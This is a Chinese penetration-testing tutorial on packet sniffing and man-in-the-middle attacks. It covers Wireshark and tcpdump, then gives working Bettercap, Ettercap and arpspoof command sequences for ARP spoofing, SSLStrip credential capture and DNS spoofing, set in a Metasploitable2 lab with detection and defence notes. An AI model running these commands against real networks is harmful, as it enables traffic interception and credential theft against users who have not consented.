


## 目录

- [[#一、网络嗅探基础概念|一、网络嗅探基础概念]]
 - [[#1.1 网络数据包传输原理|1.1 网络数据包传输原理]]
 - [[#1.2 混杂模式|1.2 混杂模式]]
 - [[#1.3 常见协议层次|1.3 常见协议层次]]
- [[#二、Wireshark使用教程|二、Wireshark使用教程]]
 - [[#2.1 界面与基本操作|2.1 界面与基本操作]]
 - [[#2.2 显示过滤器|2.2 显示过滤器]]
 - [[#2.3 追踪TCP流|2.3 追踪TCP流]]
 - [[#2.4 统计与分析|2.4 统计与分析]]
 - [[#2.5 着色规则|2.5 着色规则]]
 - [[#2.6 捕获过滤器|2.6 捕获过滤器]]
- [[#三、Tcpdump命令行抓包|三、Tcpdump命令行抓包]]
 - [[#3.1 基本命令|3.1 基本命令]]
 - [[#3.2 保存和读取|3.2 保存和读取]]
 - [[#3.3 BPF过滤器|3.3 BPF过滤器]]
 - [[#3.4 实用嗅探场景|3.4 实用嗅探场景]]
- [[#四、Bettercap MITM攻击框架|四、Bettercap MITM攻击框架]]
 - [[#4.1 工具介绍|4.1 工具介绍]]
 - [[#4.2 ARP欺骗与网络嗅探|4.2 ARP欺骗与网络嗅探]]
 - [[#4.3 HTTP/HTTPS代理与凭证捕获|4.3 HTTP/HTTPS代理与凭证捕获]]
 - [[#4.4 完整配置脚本|4.4 完整配置脚本]]
 - [[#4.5 DNS欺骗|4.5 DNS欺骗]]
- [[#五、Ettercap使用|五、Ettercap使用]]
 - [[#5.1 命令行操作|5.1 命令行操作]]
 - [[#5.2 ARP欺骗命令格式|5.2 ARP欺骗命令格式]]
- [[#六、ARP欺骗原理|六、ARP欺骗原理]]
 - [[#6.1 ARP协议|6.1 ARP协议]]
 - [[#6.2 欺骗原理|6.2 欺骗原理]]
 - [[#6.3 手工ARP欺骗演示|6.3 手工ARP欺骗演示]]
 - [[#6.4 检测ARP欺骗|6.4 检测ARP欺骗]]
- [[#七、DNS欺骗|七、DNS欺骗]]
 - [[#7.1 DNS欺骗原理|7.1 DNS欺骗原理]]
 - [[#7.2 Bettercap DNS欺骗|7.2 Bettercap DNS欺骗]]
 - [[#7.3 Ettercap DNS欺骗|7.3 Ettercap DNS欺骗]]
- [[#八、MITM攻击流程总览|八、MITM攻击流程总览]]
- [[#九、实践练习|九、实践练习]]

---

## 一、网络嗅探基础概念

### 1.1 网络数据包传输原理

**正常通信**：A ↔ B 直接通信，交换机将包只转发给目标MAC地址。

**嗅探模式**分为三种：

| 方式 | 原理 | 适用场景 |
|------|------|----------|
| 集线器网络 | Hub广播所有包到所有端口 | 已不常见 |
| 端口镜像（SPAN） | 交换机配置端口镜像，复制流量到监控口 | 合法的网络监控 |
| ARP欺骗 | 欺骗受害者ARP表，将流量导向攻击机 | 主动MITM攻击 |

### 1.2 混杂模式

网卡默认只接收目标MAC为自己的帧。混杂模式下，网卡接收所有可收到的帧。

```bash
# 启用混杂模式
sudo ip link set eth0 promisc on
sudo ifconfig eth0 promisc

# 查看状态
ip link show eth0 | grep PROMISC
```

### 1.3 常见协议层次

| 层 | 协议 | 数据单元 |
|------|------|----------|
| 数据链路层 | Ethernet, ARP, VLAN | 帧 (Frame) |
| 网络层 | IP, ICMP | 包 (Packet) |
| 传输层 | TCP, UDP | 段 (Segment) |
| 应用层 | HTTP, DNS, FTP, SMTP, SMB, SSH | 数据 (Data) |

---

## 二、Wireshark使用教程

### 2.1 界面与基本操作

```bash
sudo wireshark
```

操作步骤：

1. 选择网卡（eth0, wlan0等）
2. 点击 "Start Capturing"（鲨鱼鳍图标）
3. 观察实时捕获的数据包
4. 使用过滤器筛选
5. 点击数据包查看详细信息
6. 右键 → **Follow → TCP Stream** 追踪完整TCP会话

三个面板：

| 面板 | 位置 | 功能 |
|------|------|------|
| Packet List | 顶部 | 数据包列表 |
| Packet Details | 中部 | 分层展示协议字段 |
| Packet Bytes | 底部 | 十六进制和ASCII原始数据 |

### 2.2 显示过滤器

**协议过滤：**

```
http # 仅显示HTTP包
dns # 仅显示DNS包
tcp # 仅显示TCP包
udp # 仅显示UDP包
arp # 仅显示ARP包
icmp # 仅显示ICMP包
tls 或 ssl # 仅显示TLS/SSL包
```

**IP地址过滤：**

```
ip.addr == 192.168.1.100 # 源或目标为该IP
ip.src == 192.168.1.50 # 源IP
ip.dst == 192.168.1.100 # 目标IP
```

**端口过滤：**

```
tcp.port == 80 # TCP 80端口
tcp.port == 443 # TCP 443端口
tcp.dstport == 22 # 目标端口22
tcp.srcport == 80 # 源端口80
udp.port == 53 # UDP 53端口
```

**HTTP过滤：**

```
http.request # HTTP请求
http.response # HTTP响应
http.request.method == POST # POST请求
http.request.uri contains "login" # 登录相关请求
http contains "password" # 包含password的数据
```

**组合过滤：**

```
ip.addr==192.168.1.100 && tcp.port==80
ip.addr==192.168.1.100 && (tcp.port==80 || tcp.port==443)
http.request.method == POST && ip.addr == 192.168.1.100
!(arp || dns || icmp) # 排除ARP/DNS/ICMP
```

### 2.3 追踪TCP流

右键数据包 → Follow → TCP Stream：

- 红色：客户端发送的数据
- 蓝色：服务器发送的数据
- 底部可选择编码方式查看
- 可查看完整的HTTP请求/响应（会话重建）

### 2.4 统计与分析

| 菜单路径 | 功能 |
|----------|------|
| Statistics → Summary | 捕获摘要 |
| Statistics → Protocol Hierarchy | 协议层次统计 |
| Statistics → Conversations | 会话统计 |
| Statistics → Endpoints | 端点统计 |
| Statistics → HTTP → Requests | HTTP请求列表 |
| Statistics → Flow Graph | 通信流程图 |

### 2.5 着色规则

| 颜色 | 含义 |
|------|------|
| 粉色 | TCP重传 |
| 黑色 | TCP问题包（重复ACK，乱序等） |
| 浅蓝 | DNS |
| 绿色 | HTTP |
| 浅黄 | ARP |
| 深灰 | 错误数据包 |

### 2.6 捕获过滤器

BPF语法（在开始捕获前设置）：

```
host 192.168.1.100 # 只捕获该IP的流量
port 80 # 只捕获80端口
port 80 or port 443
tcp port 80
net 192.168.1.0/24
src host 192.168.1.100
dst host 192.168.1.100
not arp # 排除ARP
not broadcast and not multicast
```

---

## 三、Tcpdump命令行抓包

### 3.1 基本命令

```bash
# 捕获所有流量
sudo tcpdump -i eth0

# 指定捕获数量
sudo tcpdump -i eth0 -c 100

# 不解析主机名
sudo tcpdump -i eth0 -n

# 显示链路层头部
sudo tcpdump -i eth0 -e

# 详细输出 (-v/-vv/-vvv 三级)
sudo tcpdump -i eth0 -v
sudo tcpdump -i eth0 -vv
sudo tcpdump -i eth0 -vvv

# 十六进制输出
sudo tcpdump -i eth0 -X

# ASCII输出
sudo tcpdump -i eth0 -A
```

### 3.2 保存和读取

```bash
# 保存到文件
sudo tcpdump -i eth0 -w capture.pcap

# 读取文件
tcpdump -r capture.pcap

# 用Wireshark打开
wireshark capture.pcap

# 限制文件大小 (MB)
sudo tcpdump -i eth0 -C 100 -w capture.pcap

# 切割文件 (每100MB一个, 保留5个后覆盖)
sudo tcpdump -i eth0 -C 100 -W 5 -w capture.pcap
```

### 3.3 BPF过滤器

```bash
sudo tcpdump -i eth0 host 192.168.1.100
sudo tcpdump -i eth0 port 80
sudo tcpdump -i eth0 port 80 or port 443
sudo tcpdump -i eth0 tcp port 22
sudo tcpdump -i eth0 src 192.168.1.100
sudo tcpdump -i eth0 dst port 80
sudo tcpdump -i eth0 net 192.168.1.0/24
sudo tcpdump -i eth0 'tcp[tcpflags] & (tcp-syn) != 0' # SYN包
sudo tcpdump -i eth0 'tcp[13] & 2 != 0' # 同上

# 排除流量
sudo tcpdump -i eth0 not arp and not port 22
```

### 3.4 实用嗅探场景

```bash
# 嗅探HTTP流量
sudo tcpdump -i eth0 -A -s 0 'tcp port 80'

# 嗅探DNS查询
sudo tcpdump -i eth0 -n udp port 53

# 嗅探特定主机的流量
sudo tcpdump -i eth0 -n host 192.168.1.100

# 记录所有HTTP流量到文件
sudo tcpdump -i eth0 -w http_capture.pcap port 80

# 实时查看HTTP GET请求
sudo tcpdump -i eth0 -A -s 0 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420'

# 嗅探SMTP/POP3/IMAP (明文邮箱)
sudo tcpdump -i eth0 -A port 25 or port 110 or port 143

# 嗅探FTP (明文密码)
sudo tcpdump -i eth0 -A port 21
```

---

## 四、Bettercap MITM攻击框架

> 关联阅读：[[05-密码攻击与破解技术|密码破解]] 中捕获的凭证可在此验证；[[08-痕迹清除与渗透报告|痕迹清除]] 指导攻击后的清理。

### 4.1 工具介绍

Bettercap是功能强大的MITM（中间人）攻击框架，支持：

- ARP欺骗
- DNS欺骗
- HTTP/HTTPS代理（凭证捕获）
- 网络嗅探
- WiFi攻击
- 会话劫持
- SSL降级攻击（SSLStrip）

```bash
# 启动交互式模式
sudo bettercap -iface eth0

# 查看帮助
help
help net.sniff
```

### 4.2 ARP欺骗与网络嗅探

```
# Step 1: 启动bettercap
sudo bettercap -iface eth0

# Step 2: 查看网络主机
net.show

# Step 3: 开启ARP欺骗
net.probe on
set arp.spoof.targets 192.168.1.100 # 单个目标
set arp.spoof.targets 192.168.1.0/24 # 整个子网
arp.spoof on

# Step 4: 开启网络嗅探
set net.sniff.verbose true
set net.sniff.local true
set net.sniff.filter "tcp port 80"
net.sniff on

# Step 5: 查看捕获的凭证
events.stream on
```

### 4.3 HTTP/HTTPS代理与凭证捕获

```
# 前提: 已开启ARP欺骗
set arp.spoof.targets 192.168.1.100
arp.spoof on

# 开启HTTP代理 (含SSL降级)
set http.proxy.sslstrip true
http.proxy on

# 开启HTTPS代理 (自签证书)
https.proxy on

# 查看实时事件流
events.stream on

# 将POST数据写入文件
set http.proxy.dump_file /tmp/http_dump.log
```

在另一个终端中：

```bash
tail -f /tmp/http_dump.log
```

### 4.4 完整配置脚本

创建caplet文件 `/tmp/mitm.cap`：

```
# 基础配置
set arp.spoof.targets 192.168.1.100
set net.sniff.verbose true
set net.sniff.local true

# 开始攻击
net.probe on
arp.spoof on
http.proxy on
net.sniff on

# 显示事件
events.stream on
```

加载并执行：

```bash
sudo bettercap -iface eth0 -caplet /tmp/mitm.cap
```

### 4.5 DNS欺骗

```
# 设置要欺骗的域名
set dns.spoof.domains google.com,*.example.com
set dns.spoof.address 192.168.1.50

# 前提: ARP欺骗已开启
set arp.spoof.targets 192.168.1.100
arp.spoof on

# 开启DNS欺骗
dns.spoof on
```

---

## 五、Ettercap使用

### 5.1 命令行操作

```bash
# 图形界面启动
sudo ettercap -G

# 命令行ARP欺骗
sudo ettercap -T -M arp:remote /192.168.1.100/ /192.168.1.1/

# 参数说明:
# -T 文本模式 (命令行)
# -M MITM方法 (arp:remote)
# -w 保存捕获到文件
# -i 指定接口
# -q 安静模式

# 嗅探并保存
sudo ettercap -T -M arp:remote -i eth0 \
 /192.168.1.100/ /192.168.1.1/ -w capture.pcap

# 带插件的嗅探 (捕获密码)
sudo ettercap -T -M arp:remote -i eth0 \
 /192.168.1.100/ /192.168.1.1/ -P autoadd
```

### 5.2 ARP欺骗命令格式

| 格式 | 含义 |
|------|------|
| `/IP1/ /IP2/` | 单向：欺骗IP1使其认为攻击机是IP2 |
| `/IP1/ /IP2/ /IP3/` | 双向：IP1↔IP2, IP1↔IP3 |
| `//` | 整个子网 |

```bash
# 全网ARP欺骗 (谨慎!)
ettercap -T -M arp:remote // //
```

---

## 六、ARP欺骗原理

### 6.1 ARP协议

ARP（Address Resolution Protocol）用于将IP地址解析为MAC地址：

- **ARP请求**："谁有192.168.1.1？告诉我你的MAC"
- **ARP响应**："192.168.1.1 的MAC是 aa:bb:cc:dd:ee:ff"

### 6.2 欺骗原理

**正常流程：**

1. 受害者 (192.168.1.100) 想知道网关 (192.168.1.1) 的MAC
2. 受害者发出ARP请求："192.168.1.1的MAC是什么？"
3. 网关回复ARP响应："192.168.1.1 是 xx:xx:xx:xx:xx:xx"

**攻击流程：**

1. 攻击机持续发送伪造的ARP响应
2. 告诉受害者："192.168.1.1的MAC是攻击机的MAC"
3. 告诉网关："192.168.1.100的MAC是攻击机的MAC"
4. 受害者所有外网流量都经过攻击机
5. 攻击机可查看/修改/丢弃这些流量

### 6.3 手工ARP欺骗演示

使用arpspoof工具（软件包 `dsniff`）：

```bash
# 开启IP转发
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# 欺骗受害者 (告诉192.168.1.100, 我是192.168.1.1)
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 欺骗网关 (告诉192.168.1.1, 我是192.168.1.100)
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

### 6.4 检测ARP欺骗

```bash
# 查看ARP表 (检查是否有重复MAC)
arp -a

# 使用arpwatch监控ARP表变化
sudo pacman -S arpwatch
sudo arpwatch -i eth0
```

---

## 七、DNS欺骗

### 7.1 DNS欺骗原理

| 阶段 | 正常DNS | DNS欺骗 |
|------|---------|---------|
| 用户请求 | google.com → DNS服务器 | google.com → DNS服务器 |
| 响应 | 返回真实IP | 攻击机拦截，返回攻击机IP |
| 结果 | 访问真实google.com | 访问攻击机伪造页面 |

### 7.2 Bettercap DNS欺骗

```
sudo bettercap -iface eth0

set dns.spoof.domains google.com,*.example.com
set dns.spoof.address 192.168.1.50
set arp.spoof.targets 192.168.1.100

arp.spoof on
dns.spoof on
```

### 7.3 Ettercap DNS欺骗

编辑 `/etc/ettercap/etter.dns`：

```
google.com A 192.168.1.50
*.example.com A 192.168.1.50
```

启动：

```bash
sudo ettercap -T -M arp:remote -i eth0 /192.168.1.100/ // -P dns_spoof
```

---

## 八、MITM攻击流程总览





---

## 九、实践练习

> 实验拓扑：攻击机 ArchStrike (192.168.1.50)，靶机 Metasploitable2 (192.168.1.100)，网关 (192.168.1.1)

### 阶段一：环境准备

```bash
# 确认网卡名
ip addr show

# 开启IP转发
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward # 确认=1

# 确认目标在线
ping -c 3 192.168.1.100
ping -c 3 192.168.1.1

# 创建实验目录
mkdir -p ~/mitm_lab && cd ~/mitm_lab
```

### 阶段二：Tcpdump基本抓包

```bash
# 终端1: 开始捕获目标流量
sudo tcpdump -i eth0 host 192.168.1.100 -w target_traffic.pcap

# 终端2: 访问目标Web服务
# 打开Firefox → http://192.168.1.100/
# 浏览DVWA, Mutillidae, phpMyAdmin

# 终端1: Ctrl+C 停止抓包
# 分析pcap
tcpdump -r target_traffic.pcap | head -50
wireshark target_traffic.pcap
```

### 阶段三：Wireshark分析

```
1. 在过滤器栏输入: http → 回车 → 仅显示HTTP包
2. 在Packet List中查找POST请求
3. 展开Packet Details → Hypertext Transfer Protocol
 查看: Request Method, Request URI, Form item
4. 右键数据包 → Follow → TCP Stream
 在TCP流中搜索: password, pass, user, login
```

### 阶段四：Bettercap MITM攻击

```
# 启动bettercap
sudo bettercap -iface eth0

# 查看网络探测
net.show

# 启动ARP欺骗
set arp.spoof.targets 192.168.1.100
set arp.spoof.internal true
arp.spoof on

# 开启HTTP代理 (SSL降级)
set http.proxy.sslstrip true
http.proxy on

# 开启网络嗅探
set net.sniff.verbose true
net.sniff on

# 查看事件流
events.stream on
```

在目标机上触发流量（或模拟）：

- 访问任意HTTP网站
- 在登录页输入测试凭证：`admin / testpass123`
- 观察bettercap事件流中捕获的凭证

```bash
# 设置HTTP dump文件
set http.proxy.dump_file /tmp/mitm_http

# 新终端中实时查看
tail -f /tmp/mitm_http
```

### 阶段五：Ettercap模拟

```bash
sudo ettercap -T -M arp:remote -i eth0 \
 /192.168.1.100/ // -w ettercap_capture.pcap

# 等待几分钟捕获流量后按q退出
# 用Wireshark分析
wireshark ettercap_capture.pcap
```

### 阶段六：停止攻击和网络恢复

```
# bettercap中停止所有模块
arp.spoof off
http.proxy off
net.sniff off
events.stream off
exit
```

```bash
# 在目标机器上清除ARP缓存 (如有权限)
arp -d 192.168.1.1

# 关闭IP转发
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

### 阶段七：编写MITM实践报告

```bash
echo "=== MITM攻击实践报告 ===" > mitm_report.txt
echo "" >> mitm_report.txt
echo "攻击拓扑:" >> mitm_report.txt
echo " 攻击机: 192.168.1.50" >> mitm_report.txt
echo " 受害者: 192.168.1.100" >> mitm_report.txt
echo " 方法: ARP欺骗 + HTTP代理" >> mitm_report.txt
echo "" >> mitm_report.txt
echo "捕获到的信息类型:" >> mitm_report.txt
echo " - HTTP明文请求" >> mitm_report.txt
echo " - HTTP POST登录凭证" >> mitm_report.txt
echo " - 浏览的URL" >> mitm_report.txt
echo "" >> mitm_report.txt
echo "防御措施:" >> mitm_report.txt
echo " 1. 使用HTTPS (全站SSL)" >> mitm_report.txt
echo " 2. HSTS (HTTP Strict Transport Security)" >> mitm_report.txt
echo " 3. 静态ARP表 (关键设备)" >> mitm_report.txt
echo " 4. ARP监控 (arpwatch/arpalert)" >> mitm_report.txt
echo " 5. 交换机端口安全 (DAI + DHCP Snooping)" >> mitm_report.txt
```

### 注意事项

- MITM攻击具有高度侵入性，**仅在授权测试环境中执行**
- ARP欺骗会破坏网络通信，实验结束后务必停止并恢复
- HTTPS代理需要目标接受自签证书（浏览器会警告）
- 生产环境中SSLStrip可能无效（HSTS预加载）
- 使用Wireshark的 "Statistics → Protocol Hierarchy" 查看流量组成
- Tcpdump的 `-w` 保存完整pcap，Wireshark可做深度分析
- Bettercap的事件流可直接看到明文凭证，效率极高
- 检测自身是否被ARP欺骗：`arp -a` 查看是否有重复MAC
- IPv6环境下存在类似的邻居欺骗（Neighbor Spoofing）攻击

---

> [[../总目录与快速查询|← 返回总目录]]
> 
> 相关模块：[[03-网络扫描与枚举技术|扫描探测]] · [[05-密码攻击与破解技术|密码破解]] · [[07-后渗透与权限维持|后渗透]] · [[08-痕迹清除与渗透报告|痕迹清除]]
